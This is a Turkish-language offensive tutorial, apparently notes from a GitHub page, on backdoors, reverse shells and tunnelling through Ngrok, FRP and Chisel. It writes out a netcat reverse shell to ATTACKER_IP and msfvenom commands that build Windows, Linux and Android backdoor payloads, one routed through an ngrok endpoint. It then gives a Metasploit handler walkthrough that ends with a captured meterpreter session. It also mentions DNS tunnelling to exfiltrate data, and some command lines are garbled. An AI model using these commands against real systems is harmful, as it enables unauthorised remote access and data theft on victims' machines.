 1️⃣ Backdoor (Arka Kapı) Nedir?
Backdoor (arka kapı), bir sisteme veya cihaza gizli erişim sağlamak için kullanılan bir yöntemdir. Genellikle güvenlik sistemlerini atlatarak uzaktan kontrol sağlamaya yarar.
🔹 Backdoor Çeşitleri:
✅ Reverse Shell (Ters Kabuk) → Hedef sistemden saldırgana bağlantı başlatır.
✅ Bind Shell (Bağlı Kabuk) → Hedef sistemde bir port açar, saldırgan bu porta bağlanır.
✅ Kalıcı Backdoor → Sisteme her yeniden başlatıldığında çalışacak şekilde yerleştirilir.

2️⃣ Dış Ağda Backdoor Kullanımı
Eğer hedef dış ağdaysa (internet üzerinden erişim gerekiyorsa), doğrudan bağlantı kurmak zor olabilir. Bunun için tünelleme servisleri veya port yönlendirme kullanılabilir.
📌 Dış Ağda Kullanılan Yöntemler
🔹 VPN veya Proxy Kullanımı → Hedefin iç ağına erişim sağlamak için.
🔹 Ngrok, LocalTunnel vb. Servisler → İç ağdan dış ağa bağlantı açmak için.
🔹 Metasploit Reverse Shell + NAT Bypass → Dış ağdan bağlantıyı almak için.

3️⃣ Tünel Servisleri Nedir?
Tünel servisleri, iç ağdaki bir cihazın internet üzerinden erişilebilir hale gelmesini sağlar.
📌 Popüler Tünel Servisleri
✅ Ngrok → İç ağdaki bir portu internete açar (örn: http://xyz.ngrok.io).
✅ FRP (Fast Reverse Proxy) → Birden fazla bağlantı ve ters proxy işlemi yapar.
✅ Chisel → SSH tabanlı tünelleme yaparak port yönlendirme sağlar.
✅ Socat → Port yönlendirme ve ters kabuk bağlantıları için kullanılır.
Dış Ağda Çalışma Opsiyonları (Kısaca Özet)
Dış ağda (internet üzerinden) bir sisteme erişmek için çeşitli teknikler ve araçlar kullanılır. Genellikle NAT, güvenlik duvarları ve ağ kısıtlamaları aşılmaya çalışılır. İşte başlıca yöntemler:

1️⃣ Doğrudan Bağlantı (Port Yönlendirme)
🔹 Hedef cihazın portları açıksa, doğrudan bağlantı sağlanabilir.
🔹 Shodan, Censys gibi araçlarla açık portlar taranabilir.
🔹 Metasploit, Netcat, Nmap kullanarak servisler incelenebilir.
⚠️ Eğer hedef NAT veya güvenlik duvarı arkasındaysa, doğrudan bağlantı zor olabilir.

2️⃣ Reverse Shell (Ters Kabuk)
🔹 Hedef sisteme geri bağlantı başlatmasını sağlamak için kullanılır.
🔹 Metasploit, Netcat, Socat, Chisel ile ters kabuk alınabilir.
Örnek Reverse Shell:
bash
nc -e /bin/bash ATTACKER\_IP 4444

📌 Avantajı: NAT ve güvenlik duvarlarını atlatabilir.

3️⃣ Tünelleme Servisleri (Ngrok, FRP, Chisel)
🔹 İç ağdan dış dünyaya güvenli bir tünel açarak bağlantı sağlanır.
🔹 Ngrok, FRP, Chisel, SSH Tunneling gibi araçlar kullanılır.
Ngrok Kullanımı:
bash
ngrok tcp 4444

📌 Avantajı: İnternetten doğrudan bağlantı sağlar.

4️⃣ İç Ağa Erişim (VPN, Proxy, DNS Tünelleme)
🔹 VPN ile hedef ağına bağlanarak içeriden erişim sağlanabilir.
🔹 DNS Tünelleme (Iodine, DNScat2) kullanılarak veri sızdırılabilir.

📌 Özet
🌍 Dış ağdan bir sisteme erişim için farklı teknikler kullanılır:
✅ Port yönlendirme → Eğer hedefin açık portları varsa.
✅ Reverse Shell → NAT arkasındaki hedeflerin geri bağlanmasını sağlamak için.
✅ Tünelleme servisleri (Ngrok, FRP, Chisel) → İç ağdan dışarıya güvenli bir bağlantı oluşturmak için.
✅ VPN / Proxy / DNS Tünelleme → İç ağ erişimi ve veri aktarımı için.

TUNNELING
msfconsole:
> set LHOST <0.0.0.0>
> set LPORT 
#./ngrok tcp 4242
MSFVENOM
Msfvenom Nedir? Ne İşe Yarar?
🔹 Msfvenom, Metasploit Framework'ün bir parçasıdır ve payload (zararlı kod), shellcode ve exploit oluşturmak için kullanılır.
🔹 Özel payload'lar üretmek, farklı formatlarda (EXE, APK, PHP, DLL, etc.) zararlı dosyalar oluşturmak ve hedef sistemde çalıştırılabilecek exploitler hazırlamak için kullanılır.

📌 Msfvenom Ne İşe Yarar?
✅ Windows, Linux, Android, macOS gibi sistemler için zararlı dosya oluşturabilir.
✅ Ters bağlantı (Reverse Shell) ve bağlı kabuk (Bind Shell) üretebilir.
✅ Kodları şifreleyerek (Encoding) tespit edilmesini zorlaştırabilir.
✅ Meterpreter, Netcat gibi farklı payload’lar ile çalışabilir.
📌 Msfvenom Kullanımı (Temel Komutlar)
🔹 Temel format:
bash
msfvenom -p PAYLOAD -f FORMAT -o OUTPUT\_FILE
🔹Windows için Reverse Shell oluşturma:
bash
msfvenom -p windows/meterpreter/reverse\_tcp LHOST=ATTACKER\_IP LPORT=4444 -f exe -o shell.exe
🔹 Linux için Reverse Shell oluşturma:
bash
msfvenom -p linux/x86/meterpreter/reverse\_tcp LHOST=ATTACKER\_IP LPORT=4444 -f elf -o shell.elf
🔹 Android için APK içine backdoor ekleme:
bash
msfvenom -p android/meterpreter/reverse\_tcp LHOST=ATTACKER\_IP LPORT=4444 -o backdoor.apk
📌 Özet
🚀 Msfvenom, zararlı payload’lar üretmek için kullanılan Metasploit aracı.
💻 Windows, Linux, Android, macOS gibi sistemlere uygun shellcode ve backdoor oluşturabilir.

#msfvenom -p windows/meterpreter/reverse\_tcp -a x86 --platform windows lhost=tcp://0.tcp.ngrok.io:11620 -f exe -o /root/newbackdoor.exe
#msfconsole
msf5>use exploit/multi/handler
msf5 exploit(multi/handler) > set PAYLOAD windows/meterpreter/reverse\_tcp
msf5 exploit(multi/handler) > show options
msf5 exploit(multi/handler) > set LHOST 4242
msf5 exploit(multi/handler) > exploit -j -z
#service apache2 start
msf5 exploit(multi/handler) > sessions -l
msf5 exploit(multi/handler) >session -2
meterpreter> ls (ele geçirdik)

 







